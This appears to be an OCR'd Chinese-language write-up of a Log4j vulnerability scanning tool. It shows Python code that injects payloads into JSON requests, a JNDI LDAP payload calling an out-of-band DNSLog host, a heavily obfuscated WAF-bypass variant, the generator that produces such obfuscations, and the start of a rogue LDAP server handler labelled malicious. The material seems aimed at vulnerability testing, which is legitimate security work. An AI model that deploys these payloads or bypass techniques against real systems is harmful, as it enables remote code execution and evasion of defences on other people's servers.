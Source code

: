 ```python
					...
                    for payload in payloads:
                        old_dict = json.loads(request.text)
                        new_dict = JsonReplace().replace_inter(old_dict, payload)
                        request.text = json.dumps(new_dict)
                        result = request.send()
```

#### Log4j绕过WAF的Payload
传统的Log4j的Payload特征非常明显,例如如下payload

```python
${jndi:ldap://uuid.XXXX.ceye.io/hello}
```

通过{::-n}实现绕过WAF的payload

```python
${${VQ:f:-j}${68:E0:4:-n}${UiL:Iw:QuF:-d}${tI:nA:dol:-i}${vJ2:DKz:-:}${x:S5r:-l}${D:-d}${VNA:xs:rv:-a}${Y:-p}${8x:Z0z:-:}${b:V:-/}${Kki:Qn:1:-/}${x:l:-e}${Qm:ka:-e}${sL:4P8:-e}${Qqx:B:-d}${e:-d}${Qxm:r:LlI:-1}${UYv:-1}${9m:-c}${H:8P:-6}${r:I4:OC:-8}${o0:-7}${Ej:-1}${JX:9M:5F:-1}${sY:-1}${07n:owb:e:-e}${z:I:-c}${jH:nYU:s:-.}${r:RbP:j:-X}${lW:hcL:-X}${gPt:w:-X}${n:ZB0:3G:-.}${Fe:-c}${jfL:6b:sdn:-e}${N2:j:D:-y}${znQ:-e}${Di:-.}${N:d:-i}${sk:uf:-o}${4:pcl:-/}${Jb:Vf:-h}${ugL:-i}}
```

具体代码

```python
    def bypass_waf_payload(self, raw_payload):
        new_payload = ""
        for one_raw in raw_payload:
            one_format = ""
            for i in range(random_int(3)):
                one_format = f"{one_format}{random_str(random_int(3))}:"
            one_new = f"${{{one_format}-{one_raw}}}"
            new_payload = f"{new_payload}{one_new}"
        return new_payload
```

#### DNSLog与LDAP协议
在测试互联网应用时DNSlog是非常好用的,如果需要测试公司内网的应用,使用LDAP协议无疑是更加稳定好用的选择.

LDAP的payload采用如下格式:

${jndi:ldap://LDAPIP:PORT/uuid}

其中uuid可以用来判断具体请求的来源

搭建LDAPServer的代码如下:

```python
class LDAPHandler(socketserver.BaseRequestHandler):
    """
    Malicious query handler.
    """

    def __init__(self, ):
        pass

    def __call__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)

    def handle(self):
        handshake = self.request.recv(8096)
        self.request.sendall(b"0\x0c\x02\x01\x01a\x07\n\x01\x00\x04\x00\x04\x00")
        time.sleep(0.5)
        query = self.request.recv(8096)
        if len(query) < 10:
            return
```